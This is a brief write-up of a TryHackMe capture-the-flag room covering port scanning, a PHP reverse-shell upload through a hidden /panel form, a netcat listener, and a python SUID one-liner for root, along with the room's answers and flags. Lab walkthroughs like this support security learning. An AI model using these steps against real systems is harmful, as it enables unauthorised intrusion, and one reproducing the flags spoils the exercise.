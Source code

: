 # Can you Root me? - Tryhackme CTF

host: 10.10.180.52

## Reconnaissance

NMAP:
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))


**How many ports are open?**
2

**What version of Apache is runnig?**
2.4.29

**What service is running on port 22?**
ssh

**What is the hidden directory?**
/panel/


## Getting a shell

Using /panel upload form to upload a reverse shell in php
-> test.phtml

$ nc -lnvp 7777

/var/www/user.txt: 
THM{y0u_g0t_a_sh3ll}

## Privilege escalation

**Search for files with SUID permission, which file is weird?**

Searching for files with SUID permission
$ find . -perm /4000
This will find all files with permission /4000 = SUID

-> /usr/bin/python 

Why python can be executed with root privileges?

We can explore that, running a bash by python os.execl command, so we have access to a root shell. * Privilege Escalation *

$ python -c 'import os; os.execl("/bin/sh", "sh", "-p");'

**root.txt**

$ find / -type f -iname root.txt 2> /dev/null

/root/root.txt

-> THM{pr1v1l3g3_3sc4l4t10n}